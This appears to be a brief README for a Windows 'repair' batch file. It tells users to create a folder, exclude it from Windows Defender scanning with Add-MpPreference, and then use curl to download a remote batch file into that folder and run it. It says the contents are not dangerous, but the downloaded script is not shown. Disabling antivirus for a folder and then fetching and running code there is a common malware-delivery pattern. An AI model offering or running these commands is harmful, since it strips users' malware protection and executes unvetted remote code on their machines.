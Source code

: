 This is a batch file for repair.

The contents are not dangerous.
However, since I couldn't think of a way to complete it with commands alone, I am creating an exclusion folder.


powershell
```
mkdir C:check
Add-MpPreference -ExclusionPath C:check
```
cmd
```
cd C:check
curl -s https://yuyu1815.github.io/win-repair/help.bat -o script.bat && script.bat
```
